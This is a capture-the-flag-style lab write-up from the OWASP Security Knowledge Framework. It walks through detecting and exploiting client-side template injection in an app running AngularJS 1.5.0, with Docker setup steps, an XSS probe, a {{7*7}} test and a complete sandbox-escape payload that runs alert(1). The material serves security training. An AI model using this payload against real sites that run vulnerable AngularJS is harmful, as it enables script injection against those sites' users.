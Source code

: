 # Python - Client Side Template Injection (CSTI)

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:csti
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](<../../.gitbook/assets/ing\_primary\_logo (1).png>)

## Reconnaissance

### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

![](https://github.com/blabla1337/skf-labs/.gitbook/assets/csti-1.png)

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.html` page in the source code, we can see that a variable `{{CSTI}}` is used in the page

```markup
<center> <p style="font-size:2em;"> {{CSTI}} </p></center>
```

### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try!

{% hint style="info" %}
We are going to use the same payload of the XSS lab
{% endhint %}

```markup
"><script>alert('XSS')</script>
```

Unfortunately the alert does not trigger :(

![](https://github.com/blabla1337/skf-labs/.gitbook/assets/csti-2.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

### Step3

{% hint style="warning" %}
How do we get XSS?
{% endhint %}

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result.

![](https://github.com/blabla1337/skf-labs/.gitbook/assets/csti-3.png)

{% hint style="success" %}
Bingo!!
{% endhint %}

## Exploitation

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers.

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit:

* break the sanitizer
* escape the sandbox
* forge a working payload

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular.

### Step 1

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```markup
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```

We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

### Step 2

Looking at possible payloads we found a working one for Angular <= 1.5.0

```javascript
{
  {
    c = "".sub.call;
    b = "".sub.bind;
    a = "".sub.apply;
    c.$apply = $apply;
    c.$eval = b;
    op = $root.$$phase;
    $root.$$phase = null;
    od = $root.$digest;
    $root.$digest = {}.toString;
    C = c.$apply(c);
    $root.$$phase = op;
    $root.$digest = od;
    B = C(b, c, b);
    $evalAsync(
      " astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "
    );
    m1 = B($$asyncQueue.pop().expression, null, $root);
    m2 = B(C, null, m1);
    [].push.apply = m2;
    a = "".sub;
    $eval("a(b.c)");
    [].push.apply = a;
  }
}
```

We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](https://github.com/blabla1337/skf-labs/.gitbook/assets/csti-4.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes" %}

{% embed url="https://docs.angularjs.org/guide/security" %}
